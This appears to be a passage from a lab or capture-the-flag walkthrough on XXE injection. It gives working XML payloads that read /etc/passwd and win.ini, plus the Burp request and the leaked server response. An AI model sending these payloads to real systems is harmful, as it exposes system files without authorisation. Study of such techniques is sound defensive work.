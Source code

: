 *Searching for a XML exploitation cheatsheet we are met with several examples such as [the following](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity). From the above cheatsheet an excerpt can be taken that is of relevance to us.*


**Lets try to read ```/etc/passwd``` in different ways. For Windows you could try to read: ```C:\windows\system32\drivers\etc\hosts```. In this first case notice that SYSTEM ```"file:///etc/passwd"``` will also work.**

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

*Considering that the target is running a version of Windows, we will be using ```c:/windows/win.ini``` file in order to test out the exploit's validity. In BurpSuite, send the request to the Repeater module by right-clicking on the request and clicking Send to Repeater or by pressing the CTRL + R combination on your keyboard. Then, switch to the Repeater tab at the top of the BurpSuite window and change the XML data section of the request to the following:*

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
<order>
<quantity>
3
</quantity>
<item>
&test;
</item>
<address>
17th Estate, CA
</address>
</order>
```

*You can send the request from the Repeater and receive the server's response with the data pasted below.*

```
HTTP/1.1 200 OK
Date: Thu, 12 Sep 2024 13:57:53 GMT
Server: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
X-Powered-By: PHP/7.2.28
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 146
Connection: close
Content-Type: text/html; charset=UTF-8

Your order for ; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
[Ports]
COM1:=9600,n,8,1

has been processed
```
